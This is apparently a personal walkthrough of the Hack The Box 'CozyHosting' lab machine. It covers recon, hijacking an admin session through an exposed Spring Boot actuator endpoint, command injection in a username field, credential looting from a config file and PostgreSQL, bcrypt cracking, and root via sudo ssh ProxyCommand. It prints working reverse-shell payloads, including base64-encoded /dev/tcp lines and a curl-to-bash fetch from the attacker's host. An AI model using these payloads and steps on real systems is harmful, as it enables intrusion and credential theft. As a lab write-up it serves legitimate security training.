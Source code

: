 # Reconnaissance
- 10.10.11.230 : cozyhosting.htb - /etc/hosts
- Nmap output :
```bash
nmap -sV -sC -vv 10.10.11.230

---
Output:

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Cozy Hosting - Home
|_http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- nginx1.18.0, http, Linux OS
- ffuf, gobuster, dirbuster don't return anything useful.
- /assets/.. subdirectory
- not accessible.
- says no /error location so displayed on screen
- exploitable?
- BurpSuite
- we see cookie
- Login page 
- we try to login and we get an error message that prompts us to check /error page
- we get this whitelabel error
- on searching about this we see its related to Spring Boot java application
- we have a wordlist for this
- 2 ways to go about, ffuf (from walkthrough), I used dirsearch, maybe i got lucky:
- ffuf enumeration:
- first before knowing about spring boot:
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://cozyhosting.htb/FFUZ -ic -t 100
```
- we get some like index, login, admin, logout, error
- after finding out about spring boot
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt:FFUZ
-u http://cozyhosting.htb/FFUZ -ic -t 100
```
- we find actuator path is accessible
- **maybe got lucky with this search** from dirsearch we find /actuator directory
```bash
dirsearch -u cozyhosting.htb
```
- leaders us to /actuator/sessions which holds user session key
- we can change that either in burp suite or in our browser by changing our cookie to that
- we login as admin of web page
- we see connection settings where we can enter address
- we try ours but connection refused obvously
- we try localhost as kadmin but we get rejected as we dont have key
- we try to inject code in both fields and find username is injectable
```bash
;<command>;
```
### Testing the connect option below
- we try to connect to localhost while we test for injection
- we find that we can inject by putting our code into  the username field
- **Method 1 : IPPSec**
- we again connect to localhost and capture a test input in username.
- capture packet in BurpSuite > Send to Repeater
- enter this command  into username field while having nettcat listener on and send packet:
```bash
;{sleep,2}; # to test, we see a delay
;{echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvPGxvY2FsX2lwPi85OTk4ICAwPiYxICAK}|{base64,-d}|bash;
```
- How? We create our exploit, base 64 encode it, remove the additional +, = characters and then pass it to burpsuite
- we also see the last bash command isnt in {}
- test in our machine if the command executes to reverse shell. 
- we see bash with {} doesn't work
```bash
vi shell # bash -i >& /dev/tcp/<local_ip>/9998 0>&1 
base64 -w 0 shell
{echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvPGxvY2FsX2lwPi85OTk4ICAwPiYxICAK}|{base64,-d}|bash
```
- Alternatively, instead of adding spaces, you could siply add the command to our burp suite and url encode (Ctrl+U) and it will look like this :
```bash
host=127.0.0.1&username=%3b{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNS85OTk5IDA%2bJjEK}|{base64,-d}|bash%3b
```
**Note: we see , and when testing in bash it won't work. testing with , works in zsh so keep that in mind**
- in walkthrough pdf we do see a different way which i believe is compatible for bash
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.49/4444 0>&1' > rev.sh
```
- We see they use \n instead of ,
- then in our username injection input we pass this command while listening on our netcat listener:
```bash
test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;
```
- $(IFS) works with curl (but not a bash command..why?)
- represents space
- calls our command and executes via bash
- We gain foothold as appp but not user for user flag
- unzip the jar file
- we find credentials is:
```bash
app@cozyhosting:/tmp/app/BOOT-INF/classes$ cat application.properties
cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxRapp@cozyhosting:/tmp/app/BOOT-INF/classes$ 
```
- User : postgres
- Password : Vg&nvzAQ7XxR
- enter postgresql
```bash
psql -h 127.0.0.1 -U postgres
Password:Vg&nvzAQ7XxR
\l
```
- Output for list all database:
```bash
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
(4 rows)

```
- enter database and list tables:
```bash
\c
\dt
```
- Output:
```bash
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

```
- List users:
```bash
select * from users;

--OUTPUT--
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)

```
- crack hash:
```bash
vi hash # copy hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

--OUTPUT--
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:20 DONE (2025-03-28 17:04) 0.04812g/s 135.1p/s 135.1c/s 135.1C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                  
```
- Password: manchesterunited
- 

## Privilege Escalation 
- sudo -l reveals ssh can be used as sudo
- Check GTFObins for ssh shell
- These commands work :
```bash
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
ssh -o PermitLocalCommand=yes -o LocalCommand=/bin/sh localhost
```
- Why?
- It is a way to pass a command before ssh'ing into the machine. Why?
- before when connecting to a machine behind a firewall, a direct connection wouldnt work due to say a good firewall.
- So people would ssh into a Bastion machine which would do something like
- ssh -L `<port>` `<host>` and forward the ssh to the target machine
- but if the ssh tunnel isn't active before ssh'ing into the machine it wouldn't work
- so this makes things easier by making sure it passes the ssh command before we ssh into the machine
- We get root access
## Rabbit Holes
- finding creds for lateral movement

- also
```bash
username=kanderson&password=MRdEQuv6~6P.-v
```
